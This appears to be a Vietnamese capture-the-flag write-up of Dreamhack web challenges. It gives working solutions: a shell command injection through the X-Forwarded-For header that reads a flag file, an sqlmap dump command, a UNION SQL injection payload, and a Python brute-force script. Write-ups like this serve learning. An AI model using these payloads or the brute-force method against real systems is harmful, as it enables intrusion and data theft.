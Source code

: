 leg=FlAG
```
### simple-phparse
- URLencode for win
```http://host3.dreamhack.games:13101/fl%61g.php```

### what-is-my-ip
- Chúng ta sẽ sử dụng ```X-Forwarded-For``` để kiểm soát input của IP.

![image](https://github.com/user-attachments/assets/515bbc02-e412-405b-9019-e58dcf1c25dd)

```X-Forwarded-For:$(cd ../; cat flag)```

### BypassIF
- Bài này vẫn là CMDinjection nhưng có thêm timeout.

![image](https://github.com/user-attachments/assets/5cca85b7-0b88-404e-9946-fc83b294b1e0)

- Nếu chúng ta cho server ```Sleep 10``` thì sẽ có key của admin.

### baby-union
- script kiddie go bruh bruh
```sqlmap -u http://host3.dreamhack.games:24120/ --data "uid=a&upw=a" --dump```
- hoặc
```uid='+UNION+SELECT+sflag,+sclose,sname+,+svalue+FROM+onlyflag--+-&upw=a```

### Type c-j
- Nếu m đọc tới đây, thì t biết là m đã bất lực.
- Tin t đi không làm ra đâu.
  ```input1=0000000000&input2=356abcde```
### Broken Buffalo Wings
```/flag.txt = win ???????????``` 
### random-test
```py

from string import ascii_lowercase, digits
import requests

url = "http://host3.dreamhack.games:24531/"
alphabet = ascii_lowercase + digits
pw = ''

for y in range(4):
    for x in alphabet:
        res = requests.post(
            url, data={'locker_num': pw+str(x), 'password': 100})
        if "Good" in res.text:
            pw += str(x)
            print(f" {y} pw: {pw}")
            break
for x in range(100, 201):
    res = requests.post(url, data={'locker_num': pw, 'password': x})
    if "FLAG" in res.text:
        print(res.text)
        break
```
### amocafe
```
def org():
    FLAG ='DH{55f2394156567886667940273839575eb0af4b3f115345f0cc8b9}'
    menu_str = ''
    # org = 2002760202557848382
    #org = 0x1bcb3bcb0bbffb3e
    org = FLAG[10:29]
    org = int(org)
```
